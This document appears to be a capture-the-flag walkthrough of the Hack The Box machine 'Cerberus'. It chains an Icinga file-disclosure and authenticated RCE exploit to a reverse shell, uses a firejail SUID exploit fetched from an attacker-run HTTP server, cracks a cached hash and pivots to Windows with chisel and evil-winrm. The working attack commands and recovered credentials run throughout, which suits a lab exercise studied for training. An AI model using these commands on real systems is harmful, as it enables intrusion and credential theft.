




# [Cerberus](https://app.hackthebox.com/machines/Cerberus)

```bash
nmap -p- --min-rate 10000 10.10.11.205 -Pn
```




Let's do greater scan for this port.
```bash
nmap -A -sC -sV -p8080 10.10.11.205
```


From here, I see resolving into `icinga.cerberus.local` domain name, that's why I add this ip address into `/etc/hosts` file.


Let's open our application to find interesting stuff from here.


That's `Icinga` application, let's search publicly known exploit for this.

I found `Arbitrary File Disclosure` that can read files which are sensitive, that's [CVE-2022-24716](https://www.exploit-db.com/exploits/51329)


Note: By the way, there's no any authentication to read this files.

Let's try this for our target.
```bash
curl http://icinga.cerberus.local:8080/icingaweb2/lib/icinga/icinga-php-thirdparty/{file_path}
```


Now, I search file which consist of credentials of `Icinga` application from document [itself](https://icinga.com/docs/icinga-web/latest/doc/03-Configuration/).


Let's read from `/etc/icingaweb2` directory.


Let's take credentials from here.

matthew: IcingaWebPassword2023


I can login to web application's login page via this credentials.


Then I found `RCE` exploit for this version of `Icinga` ,but it is authenticated one which CVE id is [CVE-2022-24715](https://github.com/JacobEbben/CVE-2022-24715).


Due to description of this script, let's do our attack.

First, we need to genereate `PEM` file
```bash
ssh-keygen -m pem
```

Then, we need to run our exploit as below.
```bash
python3 exploit.py -t http://icinga.cerberus.local:8080/icingaweb2/ -I 10.10.14.17 -P 1337 -u matthew -p IcingaWebPassword2023 -e /root/.ssh/id_rsa
```


Hola, I got reverse shell from port `1337`.


Let's make interactive shell.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo;fg
export TERM=xterm
export SHELL=bash
```


For privilege escalation, let's find files which have `SUID` binaries via below command.
```bash
find / -perm -4000 2>/dev/null
```




I see `firejail` binary as interesting from here, let's search publicly known exploit for this.

I found this [exploit](https://gist.github.com/GugSaas/9fb3e59b3226e8073b3f8692859f8d25)

Let's download this into our machine, then open http server to upload into target machine.

First, we need to open http.server to serve this exploit.
```bash
python3 -m http.server --bind 10.10.14.17 8080
```


Then, download this `exploit.py` script from here via `wget` command.
```bash
wget http://10.10.14.17:8080/exploit.py
```


Let's run this exploit.


We need to open another terminal.


As I am `root` user, let's make interactive shell.


While running `ifconfig`, I see that this machine have another internal ip address called '172.16.22.2'.




Let's see another machines on network via `ping` command. We do like `Network Discovery` to detect another machines.

```bash
for i in {1..254}; do (ping -c 1 172.16.22.${i} | grep "bytes from" | grep -v "Unreachable" &); done;
```


Let's upload `nmap` binary into machine to analyze this machines.


Port `5985` means `WinRM` protocol for `172.16.22.1` machine.


Let's search for credentials in this machine and I found `cache_cerberus_local.ldb` file on `/var/lib/sss/db` directory and read this content via `strings` command.


There's password hash we see, let's crack this via `hashcat` tool.
```bash
hashcat -m 1800 hash.txt --wordlist /usr/share/wordlists/rockyou.txt
```


matthew: 147258369


Let's do `Pivoting` via `chisel` binary. We do `Dynamic Port Forwarding` to enumerate.

First, we need to ensure ourselves that we have `proxychains4.conf` file like below.
```bash
# defaults set to "tor"
socks5 127.0.0.1 1080
```


Second, we create `chisel` server on attacker machine.
```bash
chisel server -socks5 -reverse -port 8000
```


Then, we need to run this command on our target.
```bash
./chisel_1.9.1_linux_amd64 client 10.10.14.17:8000 R:socks 
```


Now we can login into this machine via `evil-winrm` command.
```bash
proxychains evil-winrm -i 172.16.22.1 -u matthew -p 147258369
```

user.txt




Let's look at `TCP` ports via `netstat` command.
```bash
netstat -ano | findstr "TCP"
```


There I see port `9251` which is interesting, I search exploit for this port and found this.


That's actually [CVE-2022-47966](https://github.com/horizon3ai/CVE-2022-47966).


Let's see port `9251`.


